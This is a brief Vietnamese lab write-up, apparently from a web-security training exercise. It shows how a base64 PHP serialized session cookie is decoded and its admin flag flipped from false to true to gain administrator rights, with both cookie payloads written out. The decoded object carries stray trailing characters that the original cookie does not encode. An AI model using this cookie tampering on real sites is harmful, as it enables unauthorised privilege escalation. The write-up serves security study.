

# Lab: Modifying serialized objects

## Nhận diện

- Sau khi đăng nhập, session cookie chứa một serialized object.
- Giải mã base64 cho ra object `User` với trường `admin` đang là `false`.

```txt
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```

```txt
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}7t
```

## Khai thác

- Đổi giá trị `admin` từ `b:0` sang `b:1`.

```txt
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO303dA==
```

## Kết quả

- Reload trang và tài khoản đã có quyền admin.


